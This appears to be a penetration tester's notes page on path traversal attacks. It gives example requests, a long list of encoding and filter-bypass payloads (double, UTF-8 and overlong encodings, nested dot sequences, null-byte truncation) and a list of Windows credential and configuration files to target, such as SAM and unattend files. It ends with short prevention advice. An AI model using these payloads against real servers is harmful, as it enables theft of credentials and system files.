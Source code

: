# Path Traversal

Path Traversal *also known as Directory Traversal ([Portswigger](https://portswigger.net/web-security/file-path-traversal) and [OWASP](https://owasp.org/www-community/attacks/Path_Traversal))* is a direct read (and or execute) of file on the server via abusing relative path traversal of the file system from some web endpoint to then read a file from a directory not intended to be accessible. It is commonly confused with [[File-Inclusion]], which relies on the `include()` function to include file.  [OWASP](https://owasp.org/www-community/attacks/Path_Traversal): *This attack is also known as "dot-dot-slash", "directory traversal", "directory climbing" and "backtracking".* It is also a misnomer as it is dichotomy:

Path Traversal:
- Absolute Path Traversal: `vulnerable?parameter=/var/www/html/secrets.txt`
- Relative Path Traversal: `vulnerable?parameter=/var/www/html/../../etc/passwd`

- Difference between Absolute and Relative Paths:
	- Absolute Paths - `/etc/passwd` or `C:\Windows\System32\drivers\etc\hosts`
	- Relative Paths - `../etc/passwd`; relative to the position in a file system from a source position in the file system 

For a Relative Path Traversal Provide a path that is exactly as is in the URL
```bash
curl http://badwebsite/load?file=../../../../../dt/vuln --path-as-is
```

It is worth noting that while the Relative Path Traversal is more prevalent in literature Absolute Path Traversal to just a file in the same directory exists. [OWASP](https://owasp.org/www-community/attacks/Path_Traversal) example included:
```bash
# The For sites:
http://testsite.com/get.php?f=list
http://testsite.com/get.cgi?f=2
http://testsite.com/get.asp?f=test
# An attacker can execute this attack like this:
http://testsite.com/get.php?f=/var/www/html/get.php
http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
http://testsite.com/get.asp?f=/etc/passwd
```

- Application code and data.
- Credentials for back-end systems.
	- SSH, VPN keys
	- User files containing passwords
- Sensitive operating system files.
	- Configuration files containing passwords

#### Traversal encoding:

Remember this is a guide to ideas of how to encode Directory Traversal, encoding payloads on the fly not from here.
```bash
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./

# To bypass (recursive) stripping of `.` `/` encoding
# Singular (partial) encoding 
%2e%2e/ # ../
%2e%2e%2f # ../
..%2f # ../
%2e%2e%5c # ..\
%2e%2e\ # ..\ 
..%5c #  ..\ 
%252e%252e%255c # ..\ 
..%255c # ..\
# Double encoding 
%252e%252e%252f
# UTF-8 encoding
%c0%ae%c0%ae%c0%af	
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
# Percent Encoding
# OWASP: Note that web containers perform one level of decoding on percent encoded values from forms and URLs
..%c0%af # ../
..%c0%9c # ..\
# Nested traversal sequences
..././
....//
....\/
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

# Non Standard encodins - Portswigger
..%c0%af
..%ef%bc%8f

# Required directory
/var/www/images/../../../etc/passwd

# Application expecting a file extension
# Use a null byte to effectively terminate the file path, before the required extension
../../../etc/passwd%00.png
```

A modified list of sensitive files on Windows from [hakluke's medium article](https://hakluke.medium.com/sensitive-files-to-grab-in-windows-4b8f0a655f40) and [ SleepyLctl gist](https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9)
```powershell
# %windir% or C:\

%windir%\repair\sam  
%windir%\System32\config\RegBack\SAM  
%windir%\repair\system  
%windir%\repair\software  
%windir%\repair\security  
%windir%\debug\NetSetup.log # AD domain name, DC name, internal IP, DA account  
%windir%\iis5.log
%windir%\iis6.log
%windir%\iis7.log
%windir%\system32\logfiles\httperr\httperr1.log  
C:\sysprep.inf  
C:\sysprep\sysprep.inf  
C:\sysprep\sysprep.xml  
%windir%\Panther\Unattended.xml  
C:\inetpub\wwwroot\Web.config  
%windir%\system32\config\AppEvent.Evt # Application log   
%windir%\system32\config\SecEvent.Evt # Security log  
%windir%\system32\config\default.sav  
%windir%\system32\config\security.sav  
%windir%\system32\config\software.sav  
%windir%\system32\config\system.sav  
%windir%\system32\inetsrv\config\applicationHost.config  
%windir%\system32\inetsrv\config\schema\ASPNET_schema.xml  
%windir%\System32\drivers\etc\hosts # dns entries  
%windir%\System32\drivers\etc\networks # network settings  
%windir%\system32\config\SAM  # only really useful if you have access to the files while the machine is off
C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
C:/apache/logs/access.log
C:/apache/logs/error.log
C:/apache/php/php.ini
C:/boot.ini
C:/inetpub/wwwroot/global.asa
C:/MySQL/data/hostname.err
C:/MySQL/data/mysql.err
C:/MySQL/data/mysql.log
C:/MySQL/my.cnf
C:/MySQL/my.ini
C:/php4/php.ini
C:/php5/php.ini
C:/php/php.ini
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err
C:/Program Files/MySQL/data/mysql-bin.log
C:/Program Files/MySQL/data/mysql.err
C:/Program Files/MySQL/data/mysql.log
C:/Program Files/MySQL/my.ini
C:/Program Files/MySQL/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err
C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log
C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
C:/Program Files/MySQL/MySQL Server 5.0/my.ini
C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
C:/Program Files (x86)/Apache Group/Apache/conf/access.log
C:/Program Files (x86)/Apache Group/Apache/conf/error.log
C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml
C:/Program Files (x86)/xampp/apache/conf/httpd.conf
C:/WINDOWS/php.ini
C:/WINDOWS/Repair/SAM
C:/Windows/repair/system
C:/Windows/repair/software
C:/Windows/repair/security
C:/WINDOWS/System32/drivers/etc/hosts
C:/Windows/win.ini
C:/WINNT/php.ini
C:/WINNT/win.ini
C:/xampp/apache/bin/php.ini
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/debug/NetSetup.log
C:/Windows/system32/config/AppEvent.Evt
C:/Windows/system32/config/SecEvent.Evt
C:/Windows/system32/config/default.sav
C:/Windows/system32/config/security.sav
C:/Windows/system32/config/software.sav
C:/Windows/system32/config/system.sav
C:/Windows/system32/config/regback/default
C:/Windows/system32/config/regback/sam
C:/Windows/system32/config/regback/security
C:/Windows/system32/config/regback/system
C:/Windows/system32/config/regback/software
C:/Program Files/MySQL/MySQL Server 5.1/my.ini
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log
```

## Prevention

- Validate the user input before processing it - ideally compare to a whitelist and or permit alphanumeric characters only
- After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
## References

[Portswigger](https://portswigger.net/web-security/file-path-traversal)
[OWASP](https://owasp.org/www-community/attacks/Path_Traversal)